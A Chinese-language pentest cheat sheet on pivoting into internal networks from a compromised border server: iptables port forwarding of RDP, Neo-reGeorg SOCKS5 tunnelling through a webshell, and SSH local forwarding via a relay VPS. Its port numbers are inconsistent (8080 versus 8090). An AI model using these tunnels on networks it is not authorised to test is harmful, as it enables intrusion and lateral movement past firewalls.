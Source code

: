 ## Linux iptables 端口转发（高权限用）

1、编辑配置文件

```bash
vi /etc/sysctl.conf
	net.ipv4.ip_forward = 1#开启IP转发
```

2、关闭服务

```bash
service iptables stop
```

3、配置规则

```bash
#需要访问的内网地址：10.1.1.11（Windows）
#内网边界web服务器：192.168.100.100（Linux）
iptables -t nat -A PREROUTING --dst 192.168.100.100 -p tcp --dport 3389 -j DNAT--to-destination 10.1.1.11:3389

iptables -t nat -A POSTROUTING --dst 10.1.1.11 -p tcp --dport 3389 -j SNAT --to-source 192.168.100.100
```

4、保存并重启服务

```bash
service iptables save && service iptables start
```

这时访问Web服务器的3389就能登录到内网机器的桌面了。

## Neo-reGeorg 端口复用

配合Webshell，复用目标的Web服务端口开一个Socks5代理隧道。

https://github.com/L-codes/Neo-reGeorg

```bash
python3 neoreg.py generate -k password					#生成服务端
python3 neoreg.py -k password -u http://xx/tunnel.php	#在本地建立Socks5代理
```

# Linux SSH隧道（高权限用）

SSH一般是允许通过防火墙的，而且传输过程是加密的 

**本地转发（正向）**

在`中转VPS`上执行以下命令

```bash
ssh -CfNg -L <VPS监听端口>:<目标内网IP>:<目标端口> <（root@目标外网Web服务器，会要求输入密码）>

ssh -CfNg -L 8080:10.1.1.3:3389 root@100.100.1.100

#VPS上查看8090端口是否已经连接
netstat -tulnp | grep "8090"

#连接目标内网服务器的远程桌面
VPS-IP:8090
```
